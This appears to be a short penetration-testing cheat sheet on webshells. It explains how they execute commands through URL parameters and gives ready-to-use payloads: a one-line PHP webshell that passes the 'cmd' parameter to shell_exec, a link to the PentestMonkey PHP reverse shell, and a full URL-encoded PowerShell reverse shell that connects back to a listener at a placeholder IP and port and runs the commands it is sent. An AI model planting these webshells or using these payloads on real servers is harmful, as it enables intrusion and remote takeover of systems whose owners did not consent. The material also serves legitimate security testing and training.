 # WebShells

### What is a Webshell?

A webshell is a script (often in PHP or ASP) that runs on a web server, allowing users to execute commands remotely through a web interface. It serves as a useful tool for gaining access to a server when direct methods like reverse or bind shells are not possible.

### How Webshells Work

Webshells accept commands via URL parameters or HTML forms, executing them on the server and returning the results. This can help bypass firewalls and security measures.

#### Basic Example

A simple PHP webshell can be written as:

```php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

This allows commands to be executed by appending `?cmd=` to the URL.

### Available Webshells

Kali Linux includes various webshells in `/usr/share/webshells`, such as the [PentestMonkey PHP Reverse Shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php), which is designed for Unix-based systems.

### Remote Code Execution on Windows

For Windows targets, RCE can often be achieved using a URL-encoded PowerShell reverse shell. This can be included in the URL as a command parameter.

#### Example Command

{% code overflow="wrap" %}
```powershell
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22

```
{% endcode %}

Replace `<IP>` and `<PORT>` with your listener's details.

### Conclusion

Webshells are effective for executing commands on web servers, making them valuable for penetration testing. Always use these techniques ethically and responsibly.
